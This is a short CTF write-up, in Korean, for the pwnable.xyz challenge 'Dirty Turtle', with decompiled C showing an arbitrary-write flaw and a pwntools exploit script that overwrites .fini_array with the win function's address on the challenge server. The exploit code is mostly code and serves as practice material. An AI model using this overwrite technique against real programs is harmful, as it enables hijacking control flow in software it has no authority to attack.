 ```yaml
---
title: "[pwnable.xyz]Dirty Turtle"
date: 2020-2-2
ctf: Pwnable.xyz
layout: post
published : false
---
```


원하는 주소에 원하는 값을 쓸 수 있다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 v3; // rax
  char *s; // [rsp+0h] [rbp-10h]
  unsigned __int64 v6; // [rsp+8h] [rbp-8h]

  setup();
  puts("Dirty Turtle Off-RoadS");
  printf("Addr: ", argv);
  v3 = get_val();
  printf("Value: ", v3);
  v6 = get_val();
  if ( v6 )
    *s = v6;
  else
    puts(s);
  return 0;
}
```

.dtors 영역인 .fini_array을 win주소로 덮어주면 된다. 그러면 main함수 끝나고 win함수 호출된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30033)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

sa(':',str(0x0000000000600bc0)) # .fini_array
sa(':',str(e.symbols['win']))

p.interactive()
```


